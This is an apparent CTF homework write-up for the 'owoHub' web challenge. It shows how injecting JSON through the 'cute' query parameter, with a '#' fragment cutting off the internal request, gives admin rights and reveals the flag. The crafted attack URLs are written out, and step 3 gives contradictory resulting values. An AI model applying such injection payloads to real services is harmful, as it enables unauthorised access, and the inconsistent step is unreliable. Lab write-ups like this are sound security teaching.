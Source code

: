 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
      ```js
      // but the function can't be directly access by external users
      if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
      ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`

      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`  
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      